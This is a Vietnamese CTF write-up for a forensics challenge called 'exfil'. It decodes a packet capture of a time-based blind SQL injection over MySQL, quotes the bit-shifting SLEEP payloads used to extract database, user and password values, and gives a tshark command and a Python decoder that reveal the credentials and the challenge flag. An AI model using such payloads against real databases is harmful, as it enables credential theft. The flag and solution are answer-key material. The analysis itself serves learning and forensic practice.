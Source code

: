 # exfil

- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình Time Based Blind SQL Injection lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server
![1](1.png)

- Xét đoạn mysql sau:
![2](2.png)
```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string,1,1) : lấy kí tự thứ 1 của string,ở đây attacker tăng dần index lên để dò vị trí các kí tự
	vd:  string =  'admin' => substr(string,1,1) = a, substr(string,2,1) = d ... 
	- ASCII (char): chuyển kí tự sang mã ASCII
	![ascii](ASCII.png)
	- ">> 7 & 1" đoạn này shift right 7, xong rồi and với 1
	- Nếu kết quả trả về từ substr() là NUL thì sẽ trả về ASCII(NUL) = 0, do đó 0 >> 7 = 0; 0 & 1 = 0
	- Mình lấy 3 gói tin delay khoảng 3 (s), attacker dùng để bruteforce chữ 'a' trong column user:
	```mysql
			SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
			SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 5 & 1) * 3)
			SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 0 & 1) * 3)

			97 >> 6  & 1 == 1 ==> SLEEP(3)
			97 >> 5  & 1 == 1 ==> SLEEP(3)
			97 >> 0  & 1 == 1 ==> SLEEP(3)
	```
		

- Vậy chỉ cần dựa vào thời gian delay giữa các cặp gói tin request/response attacker (trong TH đang xét khoảng 2-3s) có thể dễ dàng bruteforce được database_name.

- Ta tiếp tục xét đoạn mysql sau:
![3](3.png)

	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439(db_m3149.users), attacker tiếp tục tìm những table do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công column user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)
![4](4.png)
![5](5.png)

- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name']
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp) # regex để lấy 2 số attacker dùng để bruteforce
		if re.search('SELECT user',temp):
			user.append(_regextemp) # sau khi append thì sẽ thành mảng 3 chiều, vì sau khi regex sẽ trả về 1 mảng
		else:
			passwd.append(_regextemp)

def bruteForce(arr):
	for k in range(41,126): # Mã ASCII những kí tự hay dùng
		check = True
		for i in arr:
			if k >> i & 1 != 1:
				check = False
				break

		if(check == True):
			return chr(k)

	return 'x' # trả về x nếu ko tồn tại, đoạn này ko cần quan tâm (type = None)

def Decode(msg):
	temp = []
	i = 1
	result = ''
	for arr in msg:
		if(int(arr[0][0]) == i):
			temp.append(int(arr[0][1]))
		else:
			result += bruteForce(temp)
			i += 1
			temp = [] # reset array
			temp.append(int(arr[0][1]))

		if(arr == msg[-1]):
			result += bruteForce(temp)

	return result

print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
```sh
[+] user : admin
[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
```